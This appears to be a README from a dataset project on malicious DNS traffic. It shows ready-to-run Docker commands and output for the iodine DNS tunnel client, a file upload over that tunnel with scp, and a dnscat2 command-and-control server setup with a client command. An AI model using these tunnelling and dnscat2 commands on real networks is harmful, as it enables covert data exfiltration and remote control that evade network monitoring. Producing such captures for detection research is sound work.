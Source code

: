 Run client

```
sudo docker run --cap-add=NET_ADMIN --device=/dev/net/tun --network=host -it dmachard/iodine:latest client -f -r 8.8.8.8 tun.example.com
Enter tunnel password: 
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for tun.example.com to 8.8.8.8
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.0.0.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.0.0.1
Skipping raw mode
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. 1152 ok.. 1344 ok.. 1440 ok.. 1488 ok.. 1512 ok.. 1524 ok.. will use 1524-2=1522
Setting downstream fragment size to max 1522...
Connection setup complete, transmitting data.
```

Upload a local file to remote side

```
$ sudo scp /tmp/wireshark_wlp2s0IJSF71.pcapng root@10.0.0.1:/tmp
The authenticity of host '10.0.0.1 (10.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:n1Tj0bCqHpZswnjP92E33SoCQL4nj3pRKwS1qHB2RqY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.0.1' (ED25519) to the list of known hosts.
root@10.0.0.1's password: 
wireshark_wlp2s0IJSF71.pcapng                   36% 3504KB 304.9KB/s   00:19 ETA
```

### DNSCat2

- Github URL: https://github.com/iagox86/dnscat2
- Qtype DNS used: TXT, CNAME, MX
- Network capture: https://github.com/dmachard/datasets-malicious-dns/blob/main/dnscat2.pcap

Run server side

```
# sudo docker run -p 53:53/udp -it --rm dmachard/dnscat2:latest server biillpi.com

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = biillpi.com]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=e9829a2263f0c5ca10c8024dd551691f biillpi.com
```